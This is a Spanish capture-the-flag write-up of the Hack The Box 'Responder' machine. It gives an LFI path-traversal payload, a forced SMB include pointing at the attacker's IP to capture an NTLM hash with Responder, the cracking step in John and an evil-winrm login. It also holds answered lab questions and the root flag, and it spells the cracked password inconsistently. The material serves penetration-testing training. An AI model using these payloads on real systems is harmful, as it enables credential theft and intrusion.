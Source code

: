 ```yaml
---
title: HTB-Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, WriteUp]
tag: [Responder, LFI]
image:
   path: assets/img/htb/responder/preview1.png
   width: 1000
   height: 400
img_path: assets/img/htb-responder
---
```


# Responder - HackTheBox

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```


Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor **SMB** este activado.

![](Pasted image 20220427170523.png)

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el **hash NTLM**.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![](Pasted image 20220427172844.png)

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![](Pasted image 20220427134218.png)

